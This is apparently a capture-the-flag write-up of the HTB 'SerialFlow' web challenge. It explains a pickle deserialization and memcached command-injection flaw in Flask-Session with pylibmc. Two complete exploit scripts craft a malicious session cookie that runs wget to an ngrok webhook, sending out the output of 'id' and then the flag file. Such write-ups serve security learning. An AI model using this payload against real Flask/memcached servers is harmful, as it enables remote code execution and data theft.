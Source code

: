 ## **Description**
SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?
<br></br>

```py
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```
The `memcached` is used for caching data.


In `requqirements.txt` we can see it uses `pylibmc==1.6.3` also `Flask-Session==0.4.0`

```txt
Flask==2.2.2
Flask-Session==0.4.0
pylibmc==1.6.3
Werkzeug==2.2.2
```
After reading the sessions.py from `https://github.com/pallets-eco/flask-session/blob/main/src/flask_session/sessions.py`

I found that it used the `cPickle` which is vulnerable to deserialization attacks, After a bit of googling about memcached and cPickle, I came across this as the POC of the exploit.
`https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/`

I tried to wget my webhook, and it worked! , GOT RCE
<br></br>
```py
from requests import *
import re
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a46-80-10-22-106.ngrok-free.app/?c=$(id)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:10 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:10')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
c=generate_exploit()
print(c)
url="http://83.136.255.150:51682/"
r=get(url,cookies={"session":c})
# print(r.text)
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/7.PNG">
<br></br>
```py
from requests import *
import re
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a46-80-10-22-106.ngrok-free.app/?c=$(cat /flag*)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:10 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:10')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
c=generate_exploit()
print(c)
url="http://83.136.255.150:51682/"
r=get(url,cookies={"session":c})
# print(r.text)
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/8.PNG">
<br></br>
```
HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}
```
